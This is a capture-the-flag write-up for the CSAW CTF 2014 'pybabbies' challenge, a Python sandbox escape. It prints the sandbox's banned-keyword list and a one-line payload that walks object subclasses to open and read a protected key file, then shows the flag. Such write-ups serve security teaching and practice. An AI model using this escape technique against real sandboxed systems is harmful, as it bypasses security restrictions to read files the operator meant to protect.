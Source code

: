 # CSAW CTF 2014: pybabbies

**Category:** Exploitation
**Points:** 200
**Description:**

> so secure it hurts
>
> ```bash
> nc 54.165.210.171 12345
> ```
>
> Written by ColdHeat
>
> [pyshell.py](pyshell.py)

## Write-up

[The provided Python script](pyshell.py) is a Python sandbox that disallows the use of the following commands:

```py
banned = [
    "import",
    "exec",
    "eval",
    "pickle",
    "os",
    "subprocess",
    "kevin sucks",
    "input",
    "banned",
    "cry sum more",
    "sys"
]
```

One possible solution is the following:

```python
print(().__class__.__bases__[0].__subclasses__()[40]('./key').read())
```

This prints the contents of the `key` file:

```
flag{definitely_not_intro_python}
```

The flag is `definitely_not_intro_python`.

## Other write-ups and resources

* <http://rotlogix.com/2014/09/22/csaw-exploitation-200-pybabies/>
* [_Escaping Python sandboxes_](https://isisblogs.poly.edu/2012/10/26/escaping-python-sandboxes/)
* <http://evandrix.github.io/ctf/2014-csaw-exploitation-200-pybabbies.html>
* <https://hexplo.it/escaping-the-csawctf-python-sandbox/>